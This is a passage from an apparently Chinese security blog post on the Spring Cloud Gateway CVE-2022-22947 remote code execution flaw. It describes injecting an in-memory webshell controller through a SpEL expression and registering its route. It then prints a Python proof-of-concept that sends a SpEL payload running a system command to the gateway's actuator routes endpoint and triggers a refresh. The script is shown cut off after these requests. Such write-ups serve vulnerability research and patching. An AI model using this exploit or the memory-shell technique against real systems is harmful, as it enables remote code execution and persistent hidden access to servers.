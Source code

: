 <br/>接下来创建内存马的过程就很简单了，最终效果就是将如下自定义的`Controller`子类通过SPEL表达式注入到内存并通过`RequestMappingHandlerMapping`对象完成路由注册：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647573912918-962092be-759d-488b-bc77-b6960a4b2cab.png)

<br/>构造完新的payload后，发送数据包：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647573923086-32cab28a-86da-4cab-98fd-3405742b5d95.png)

<br/>refresh后将注入内存马：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647573937710-577aedc0-9571-4868-b4fc-fd753abe0de9.png)

<br/>最后同样记得发送DELETE请求将创建的路由删除。

## 漏洞POC

<a-alert type="success" message="https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947/blob/main/spring_cloud_RCE.py" description="" showIcon>
</a-alert>
<br/>

```python
import requests
import json
import sys


def exec(url):

    headers1 = {
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/json'
    }

    headers2 = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    ## command to execute replace "id" in payload

    payload = '''{\r
      "id": "hacktest",\r
      "filters": [{\r
        "name": "AddResponseHeader",\r
        "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\\"id\\"}).getInputStream()))}"}\r
        }],\r
      "uri": "http://example.com",\r
      "order": 0\r
    }'''

   

    
    re1 = requests.post(url=url + "/actuator/gateway/routes/hacktest",data=payload,headers=headers1,json=json)
    re2 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
```